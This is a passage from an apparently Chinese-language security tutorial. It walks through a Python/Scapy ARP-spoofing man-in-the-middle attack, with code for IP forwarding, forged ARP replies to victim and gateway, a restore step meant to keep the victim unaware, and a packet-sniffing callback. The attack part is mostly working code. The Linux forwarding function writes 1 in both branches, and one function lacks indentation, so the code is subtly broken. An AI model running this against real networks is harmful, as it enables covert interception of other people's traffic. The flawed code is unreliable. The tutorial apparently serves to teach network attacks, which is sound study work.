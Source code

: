 这将返回调用此函数时提供的 IP 的 MAC 地址

5.  现在我们将创建一个函数来切换 IP 转发。这与 Linux 和 macOS 不同：
    *   对于 macOS：

```
def setIPForwarding(set): 
    if set:
        #for OSX
        os.system('sysctl -w net.inet.ip.forwarding=1')
    else:
        #for OSX
        os.system('sysctl -w net.inet.ip.forwarding=0') 
```

```
def setIPForwarding(set):
    if set:
        #for Linux
        os.system('echo 1 > /proc/sys/net/ipv4/ip_forward')
    else:
        #for Linux
        os.system('echo 1 > /proc/sys/net/ipv4/ip_forward')
```

6.  现在我们必须编写另一个函数来重新建立受害者和来源之间的连接。这是为了确保受害者不会识别拦截：

```
def resetARP(destination_ip, source_ip, interface):
destinationMAC = getMAC(destination_ip, interface)
sourceMAC = getMAC(source_ip, interface)    
send(ARP(op=2, pdst=source_ip, psrc=destination_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=destinationMAC, retry=7))
send(ARP(op=2, pdst=destination_ip, psrc=source_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=sourceMAC, retry=7))
setIPForwarding(False)  
```

在这个函数中，我们首先使用我们编写的函数获取源和目标的 MAC 地址：`getMAC()`。然后，我们将向源发送请求，就像从目标发送一样。此外，我们将向目标发送请求，就像它来自源一样。最后，我们使用我们编写的函数重置 IP 转发：`setIPForwarding()`

7.  现在我们将进行实际的攻击。为此，我们将编写一个函数：

```
def mitm(destination_ip, destinationMAC, source_ip, sourceMAC):
    arp_dest_to_src = ARP(op=2, pdst=destination_ip, psrc=source_ip, hwdst=destinationMAC)
    arp_src_to_dest = ARP(op=2, pdst=source_ip, psrc=destination_ip, hwdst=sourceMAC)
    send(arp_dest_to_src)
    send(arp_src_to_dest)

```

这将把数据包同时发送到源和目的地，表明我们的接口是源的目的地和目的地的源

8.  接下来，我们必须设置回调函数来解析来自接口的嗅探数据包：

```
def callBackParser(packet):
  if IP in packet:
      source_ip = packet[IP].src
      destination_ip = packet[IP].dst
      print("From : " + str(source_ip) + " to -> " + str(destination_ip))  
```
